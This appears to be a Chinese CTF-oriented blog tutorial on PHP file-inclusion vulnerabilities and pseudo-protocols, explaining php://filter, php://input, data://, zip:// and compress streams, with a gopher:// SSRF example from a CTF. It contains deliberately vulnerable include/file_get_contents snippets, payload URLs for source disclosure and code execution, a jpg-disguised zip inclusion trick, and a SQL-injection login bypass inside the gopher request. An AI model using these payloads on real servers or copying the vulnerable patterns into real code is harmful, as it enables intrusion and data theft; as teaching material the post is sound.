Smi1e

- Home

 

- Archive

 

- Link

 

- About Me

 

文件包含漏洞与PHP伪协议

Contents [显示目录]

PHP中支持的伪协议

file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

file://协议

PHP.ini：

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

filebh.php

<?php
if(isset($_GET['page']))
{
    include $_GET['page'];
}
?>

file:// [文件的绝对路径和文件名]

http://192.168.86.1/filebh.php?page=file://e:/tool/phpstudy/phptutorial/www/phpinfo.php



php://协议

php://filter在双off的情况下也可以正常使用；

条件：

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

php://filter

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

可以运用多种过滤器（字符串/转换/压缩/加密）

例如平时我们用来任意文件读取的payload

php://filter/read=convert.base64-encode/resource=upload.php
这里读的过滤器为convert.base64-encode，就和字面上的意思一样，把输入流base64-encode。
resource=upload.php，代表读取upload.php的内容

这样就可以以base64编码的方式读取文件源代码



过滤器

过滤器有很多种，有字符串过滤器、转换过滤器、压缩过滤器、加密过滤器

<字符串过滤器>

string.rot13
进行rot13转换
string.toupper
将字符全部大写
string.tolower
将字符全部小写
string.strip_tags
去除空字符、HTML 和 PHP 标记后的结果。
功能类似于strip_tags()函数，若不想某些字符不被消除，后面跟上字符，可利用字符串或是数组两种方式。

举例

<?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.rot13');
    echo "rot13:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.toupper');
    echo "Upper:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.tolower');
    echo "Lower:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    echo "Del1:";
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE);
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    echo "Del2:";
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE, "<b>");
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.strip_tags', STREAM_FILTER_WRITE, array('b','h1'));
    echo "Del3:";
    fwrite($fp, "<b>This is a test.</b>!!!!<h1>~~~~</h1>\n");
    fclose($fp);
?>

php的stream_filter_append和stream_filter_prepend



<转换过滤器>



举例：

<?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-encode');
    echo "base64-encode:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $param = array('line-length' => 8, 'line-break-chars' => "\n");
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-encode', STREAM_FILTER_WRITE, $param);
    echo "\nbase64-encode-split:\n";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.base64-decode');
    echo "\nbase64-decode:";
    fwrite($fp, "VGhpcyBpcyBhIHRlc3QuCg==\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.quoted-printable-encode');
    echo "quoted-printable-encode:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo " ";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.quoted-printable-decode');
    echo "\nquoted-printable-decode:";
    fwrite($fp, "This is a test.=0A");
    fclose($fp);
    echo " ";

?>



<压缩过滤器>



zlib.* 压缩过滤器自 PHP 版本 5.1.0起可用，在激活 zlib的前提下。也可以通过安装来自 » PECL的 » zlib_filter包作为一个后门在 5.0.x版中使用。此过滤器在 PHP 4 中 不可用。

<?php
$params = array('level' => 6, 'window' => 15, 'memory' => 9);
$original_text = "This is a test.\nThis is only a test.\nThis is not an important string.\n";
echo "The original text is " . strlen($original_text) . " characters long.\n";
$fp = fopen('test.deflated', 'w');
stream_filter_append($fp, 'zlib.deflate', STREAM_FILTER_WRITE, $params);
fwrite($fp, $original_text);
fclose($fp);
echo "The compressed file is " . filesize('test.deflated') . " bytes long.\n";
echo "The original text was:\n";
/* Use readfile and zlib.inflate to decompress on the fly */
readfile('php://filter/zlib.inflate/resource=test.deflated');

/* Generates output:
The original text is 70 characters long.
The compressed file is 56 bytes long.
The original text was:
This is a test.
This is only a test.
This is not an important string.
 */
?>

<加密过滤器>



实例

xxx.php

<?php  
$filename=$_GET["a"];  
$data="test test";  
file_put_contents($filename, $data);  
?>  

PHP file_put_contents() 函数

payload=http://127.0.0.1/xxx.php?a=php://filter/write=string.tolower/resource=test.php

可以往服务器中写入一个文件内容全为小写且文件名为test.php的文件：



xxx.php

<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?>  

PHP file_get_contents() 函数

file_get_contents()的$filename参数不仅仅为文件路径，还可以是一个URL（伪协议）。

payload=http://127.0.0.1/xxx.php?a=php://filter/convert.base64-encode/resource=test.php

test.php的内容以base64编码的方式显示出来



xxx.php

<?php  
$filename=$_GET['a'];
$data="test test";
include("$filename");
?>

payload=http://127.0.0.1/xxx.php?a=php://filter/convert.base64-encode/resource=test.php

同样可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量$filename会被当作正常变量执行，而单引号包含的变量则会被当作字符串执行。

例如：

<?php  
$aa=1;
echo "$aa";
echo " ";
echo '$aa';
?>

php://input

php://input 是个可以访问请求的原始数据的只读流,可以读取到post没有解析的原始数据, 将post请求中的数据作为PHP代码执行。因为它不依赖于特定的 php.ini 指令。

注：enctype=”multipart/form-data” 的时候 php://input 是无效的。

allow_url_fopen ：off/on

allow_url_include：on

xxx.php

<?php  
echo file_get_contents($_GET["a"]);  
?>  



但是当PHP代码为：

<?php  
$test=$_GET['a'];
include($test);
?>    

并且当远程包含打开的时候（allow_url_include=on),就可以造成任意代码执行。

但是在老版hackbar中可以直接被解析



实例：

$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin! ";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
// 解法为  url/index.php?user=php://input  
// [POSTDATA] the user is admin
// 最后输出为hello admin!并且包含对应文件

php://output

是一个只写的数据流， 允许你以 print 和 echo 一样的方式 写入到输出缓冲区。

<?php  
$code=$_GET["a"];  
file_put_contents($code,"test");   
?>  



data://

data:资源类型;编码,内容

数据流封装器

当allow_url_include 打开的时候，任意文件包含就会成为任意命令执行

PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

php 版本大于等于 php5.2

xxx.php

 <?php  
$filename=$_GET["a"];  
include("$filename");  
?>  

可以

http://127.0.0.1/xxx.php?a=data://text/plain,<?php phpinfo()?>
or
http://127.0.0.1/xxx.php?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

或者
http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>
or
http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=



zip://, bzip2://, zlib://协议

PHP.ini：

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

3个封装协议，都是直接打开压缩文件。
compress.zlib://file.gz - 处理的是 '.gz' 后缀的压缩包
compress.bzip2://file.bz2 - 处理的是 '.bz2' 后缀的压缩包
zip://archive.zip#dir/file.txt - 处理的是 '.zip' 后缀的压缩包里的文件

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

zip://协议

php 版本大于等于 php5.3.0

使用方法：

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]**

要用绝对路径+url编码#

测试:

新建一个名为zip.txt的文件，内容为<?php phpinfo();?>，然后压缩为名为test.zip的zip文件。如果可以上传zip文件则上传zip文件，若不能则重命名为test.jpg后上传。其他几种压缩格式也可以这样操作。



更名为jpg

payload:http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt



bzip2://协议

使用方法：

compress.bzip2://file.bz2

相对路径也可以

测试

用7-zip生成一个bz2压缩文件。

pyload:http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2

或者文件改为jpg后缀

http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg



zlib://协议同理

小结

---



以后再遇到继续补充

gopher协议

不属于php伪协议，仅作记录

在ssrf时常常会用到gopher协议构造post包来攻击内网应用。其实构造方法很简单，与http协议很类似。

不同的点在于gopher协议没有默认端口，所以需要指定web端口，而且需要指定post方法。回车换行使用%0d%a。注意post参数之间的&分隔符也要进行url编码

这是一个具体的gopher协议的例子（swpuctf web300）：

gopher://172.16.181.166:80/_POST /admin/wllmctf_login.php HTTP/1.1%0d%0a
Host: 172.16.191.166%0d%0a
User-Agent: curl/7.43.0%0d%0a
Accept: */*%0d%0a
Content-Length: 29%0d%0a
Content-Type: application/x-www-form-urlencoded%0d%0a%0d%0a
user=admin' or '1'='1%26password=admin

注意：如果ssrf的点是get参数，因为处于url中，则需要进行一次url编码，上述例子将会编码成：

gopher%3A%2f%2f172.16.181.166%3A80%2f_POST%20%2fadmin%2fwllmctf_login.php%20HTTP%2f1.1%250d%250aHost%3A%20172.16.191.166%250d%250aUser-Agent%3A%20curl%2f7.43.0%250d%250aAccept%3A%20%2a%2f%2a%250d%250aContent-Length%3A%2043%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%27%20and%20%271%27%3D%272%2526password%3Dadmin

参考：

php 伪协议

php审计基础三：php封装协议小总结

浏览器支持data URI协议

php伪协议实现命令执行的七种姿势

PHP伪协议

1. 学到了

forever404

1. Tql

sketch_pl4ne

 

发表评论

 

发表评论

  

            © Smi1e's Blog   豫ICP备18021851号

